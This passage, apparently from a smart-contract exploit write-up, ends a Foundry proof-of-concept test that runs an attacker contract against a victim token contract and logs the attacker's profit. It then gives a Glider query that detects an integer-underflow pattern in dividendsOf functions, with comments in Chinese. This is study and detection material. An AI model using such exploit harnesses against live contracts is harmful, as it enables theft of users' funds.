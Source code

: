 ```so
        vm.startPrank(ATTACKER_EOA);
        attacker.attack();
        vm.stopPrank();

        // 记录攻击后余额
        uint256 attackerBalanceAfter = IERC20(TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceAfter = IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);

        console.log(unicode"攻击后状态:");
        console.log(unicode"攻击者EOA Token余额:", attackerBalanceAfter / 1e18);
        console.log(unicode"受害者合约Token余额:", contractBalanceAfter / 1e18);

        // 计算总获利（攻击者EOA余额 - 初始投入）
        uint256 initialInvestment = 26712204771447245411336;
        uint256 profit = attackerBalanceAfter - initialInvestment; // 减去初始投入的2万Token
        
        console.log(unicode"总投入(Token):", initialInvestment / 1e18);
        console.log(unicode"总获利(Token):", profit / 1e18);
        
        console.log(unicode"攻击测试完成!");
    }
}
```



## Glider

```python
from glider import *  
  
def query():  
    """  
    查找 dividendsOf 函数中的整数下溢漏洞  
    模式: (uint256)((int256)(expression) - variable)  
    """  
      
    # 1. 查找名为 dividendsOf 的函数  
    functions = (  
        Functions()  
        .with_name("dividendsOf")  
        .exec(1000)  
    )  
      
    results = []  
      
    for func in functions:  
        source = func.source_code()  
          
        # 2. 检查是否包含危险的类型转换模式  
        if 'uint256' in source and 'int256' in source and '-' in source:  
            # 3. 获取函数的所有指令  
            instructions = func.instructions().exec()  
              
            for ins in instructions:  
                ins_source = ins.source_code()  
                  
                # 4. 检测 return 语句中的类型转换  
                if 'return' in ins_source and 'uint256' in ins_source and 'int256' in ins_source:  
                    # 5. 检查是否存在减法操作  
                    if '-' in ins_source:  
                        results.append(func)  
                        break  
      
```